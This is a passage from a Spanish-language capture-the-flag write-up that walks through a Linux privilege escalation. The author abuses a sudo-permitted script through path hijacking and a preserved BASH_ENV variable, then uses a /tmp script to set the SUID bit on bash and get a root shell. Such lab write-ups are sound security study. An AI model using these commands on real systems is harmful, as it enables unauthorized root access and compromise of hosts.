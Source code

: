 ```bash
df -h
```

- El script nos permite ejecutar algunos comandos con permisos `root`
- No utiliza rutas absolutas, posible **path hijacking**

```bash
hish@environment:~$ export PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
- agregamos directorio `/tmp/` al path

- creamos archivo mount en `/tmp/` y le damos permisos de ejecución
```bash
hish@environment:~$ nano /tmp/mount
hish@environment:~$ cat /tmp/mount
#!/bin/bash

chmod +s /usr/bin/bash
hish@environment:~$ chmod +x /tmp/mount 
```

- Al ejecutar el archivo no pasa, nada ya que como muestra la salida de `sudo -l`, el path se esta reiniciano por seguridad
- Luego de inspeccionar mas detenidamente, vemos que la vairable de entorno bash_env no se reinicia por lo que podemos aprovecharnos de esta

```bash
hish@environment:~$ export BASH_ENV=/tmp/mount 
```

- Al ejecutar el script con sudo, le añadimos permisos suid a `/usr/bin/bash`
```bash
hish@environment:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /usr/bin/bash
```

- Ejecutamos una bash con privilegios
```bash
hish@environment:~$ bash -p
bash-5.2# whoami
root
```

- Navegamos al directorio de root y obtenemos la flag.
```bash
bash-5.2# cd /root/
bash-5.2# ls
root.txt  scripts
```
  
